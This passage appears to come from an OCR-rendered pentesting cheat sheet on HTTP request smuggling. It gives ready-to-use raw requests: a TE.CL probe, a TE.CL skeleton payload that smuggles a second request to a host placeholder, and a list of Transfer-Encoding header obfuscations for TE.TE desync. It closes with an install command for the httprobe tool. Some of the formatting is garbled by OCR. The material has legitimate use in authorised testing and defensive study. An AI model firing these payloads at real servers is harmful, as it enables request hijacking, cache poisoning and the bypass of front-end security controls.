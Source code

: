 ### Transfer-Encoding / Content-Length (TE.CL)

#### Searching for Vulnerability

```console
POST / HTTP/1.1
Host: <RHOST>
Transfer-Encoding: chunked
Connection: keep-alive
Content-Length: 6

0
X
```

#### Skeleton Payload

```console
POST / HTTP/1.1
Host: <RHOST>
Content-Length: 4
Connection: keep-alive
Transfer-Encoding: chunked
\ `7b`\ `GET /404 HTTP/1.1`\ `Host: <RHOST>`\ `Content-Type: application/x-www-form-urlencoded`\ `Content-Length: 30`\
x=
0
\
```

### Transfer-Encoding / Transfer-Encoding (TE.TE)

```console
Transfer-Encoding: xchunked
\ `Transfer-Encoding : chunked`\
Transfer-Encoding: chunked
Transfer-Encoding: x
\ `Transfer-Encoding: chunked`\ `Transfer-encoding: x`\
Transfer-Encoding:[tab]chunked
\ `[space]Transfer-Encoding: chunked`\
X: X[\n]Transfer-Encoding: chunked
``
Transfer-Encoding
: chunked
```

## httprobe

> https://github.com/tomnomnom/httprobe

```console
$ go install github.com/tomnomnom/httprobe@latest
```
